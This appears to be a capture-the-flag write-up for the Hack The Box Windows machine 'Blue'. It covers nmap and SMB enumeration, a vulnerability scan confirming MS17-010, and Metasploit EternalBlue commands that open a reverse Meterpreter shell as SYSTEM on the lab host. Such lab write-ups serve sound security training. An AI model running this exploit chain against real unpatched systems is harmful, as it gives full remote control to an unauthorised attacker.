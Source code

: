 ```yaml
---
title: "Blue"
tags:
  - Easy
  - Windows
  - EternalBlue
---
```


|  | Difficulty |  |  IP Address   |  | Room Link |  |
|:-| :--------: |--|:------------: |--| :--------:|--|
|  |  Easy |  | 10.10.10.40 |  | [Blue](https://app.hackthebox.com/machines/blue) |  |

---
### Enumeration

## Nmap Scan
Perform an initial scan to enumerate open ports and services:

```shell
nmap -p- --min-rate=1000 -sV 10.10.10.40
```

**Output:**

```
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  msrpc        Microsoft Windows RPC
Service Info: Host: HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows
```

## SMB enumeration:

```
smbclient -N -L \\\\10.10.10.40\\
```

**Output:**

```
Sharename       Type      Comment
---------       ----      -------
ADMIN$          Disk      Remote Admin
C$              Disk      Default share
IPC$            IPC       Remote IPC
Share           Disk      
Users           Disk
```  

Shares returned `Access Denied` or default content.

## Vulnerability Check

```
sudo nmap -vv -p 445 --script=smb-vuln* --script-args=unsafe=1 10.10.10.40
```

**Output:**

```
PORT    STATE SERVICE      REASON
445/tcp open  microsoft-ds syn-ack ttl 127

Host script results:
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
```

### EternalBlue Exploitation (MS17-010)
EternalBlue exploits a critical vulnerability in SMBv1, enabling remote code execution with SYSTEM privileges. 

## Exploit Using Metasploit
Execute the EternalBlue exploit module:

```
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 10.10.10.40
set LHOST tun0
set LPORT 443
run
```

![screenshot1](../assets/images/Blue/screenshot1.png)

Gained a Meterpreter shell as NT AUTHORITY\SYSTEM.

![screenshot1](../assets/images/Blue/screenshot2.png)

User and root flag are located in haris' and Administrator Desktop respectively.